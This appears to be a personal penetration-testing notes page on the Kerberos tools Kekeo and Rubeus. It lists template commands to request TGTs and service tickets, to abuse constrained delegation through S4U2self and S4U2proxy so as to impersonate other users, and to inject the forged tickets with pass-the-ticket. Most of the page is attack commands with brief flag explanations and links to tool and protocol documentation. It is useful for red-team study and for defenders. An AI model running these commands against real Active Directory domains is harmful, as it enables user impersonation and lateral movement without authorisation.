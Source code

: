 # kekeo/rubeus

### Resources

1. **Rubeus**

{% embed url="https://github.com/GhostPack/Rubeus?tab=readme-ov-file#s4u" %}

2. **Kekeo**

{% embed url="https://github.com/gentilkiwi/kekeo" %}

3. **S4U2self and S4U2proxy**

{% embed url="https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/02636893-7a1f-4357-af9a-b672e3e3de13" %}

{% embed url="https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/bde93b0e-f3c9-4ddf-9f44-e1453be7af5a" %}



For each of the following sections, I aim to provide the equivalent commands in **Kekeo** and **Rubeus** (some of the sections may only have examples in one tool).

### 1. Request for Ticket Granting Ticket (TGT)

```powershell
kekeo # tgt::ask /user:<user> /domain:<domain> /password:<password>
C:\> rubeus.exe /user:<user> /password:<password>
```

* For rubeus, if `/password` is used instead of a hash, `/enctype:X` will default to RC4 for the exchange, with `des|aes128|aes256` as options

### 2. Request for Ticket Granting Service (TGS)

```powershell
C:\> rubeus.exe asktgs /ticket:<ticket> /service:<servicename>
```

### 3. Constrained delegation abuse: Service for User (S4U)

```
kekeo # tgs::s4u /tgt:<path_to_TGT> /user:<username> /service:<servicename>
```

{% embed url="https://github.com/GhostPack/Rubeus?tab=readme-ov-file#s4u" %}

From the Rubeus S4U documentation page link above, we can find a few examples:

#### a. S4U2self

{% code overflow="wrap" %}
```powershell
C:\> rubeus.exe s4u /user:<username> /rc4:<rc4_hash> /impersonateuser:<user_to_impersonate>
```
{% endcode %}

* `/rc4`: rc4 hash of the user associated with `/user`
  * The TGT  for an account with a _**msds-allowedtodelegateto**_ permission can be used instead (`/ticket:X`)
* `/impersonateuser` : compulsory parameter to specify the user we plan to obtain a service ticket on behalf for

From this command, we will obtain the following:

1. A TGT for the user specified in `/user`&#x20;
2. A TGS for the user specified in `/impersonateuser`&#x20;

* Using the [**S4U2self** ](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/02636893-7a1f-4357-af9a-b672e3e3de13)extension: where the service account can use the TGS obtained to authenticate to itself (or more specifically, the service it is running) on behalf of the user specified in `/impersonateuser`&#x20;

#### b. S4U2proxy

{% code overflow="wrap" %}
```powershell
C:\> rubeus.exe s4u /ticket:<TGT> /msdsspn:<SPN> /tgs:<TGS>
```
{% endcode %}

* `/ticket` : TGT obtained from the previous step
* `mdsspn` : Service Principal Name (SPN)
  * This value must be listed under the `msds-allowedtodelegateto` property for the service account (supplied to the `/user` field in the previous step)
* `/tgs` : The forwardable ticket retrieved from the previous step (S4U2self ticket for the user specified in `/impersonateuser`_)_

From this command, we will obtain the following:

1. A TGS (for the user specified in `/impersonateuser` ) that can be used to authenticate to the service defined in `/mdsspn`. We can achieve this with:

{% embed url="https://github.com/GhostPack/Rubeus?tab=readme-ov-file#ptt" %}

```powershell
C:\> rubeus.exe ptt /ticket:TGS
```

or by supplying the `/ptt` flag to the s4u command.



{% embed url="https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/3bff5864-8135-400e-bdd9-33b552051d94" %}





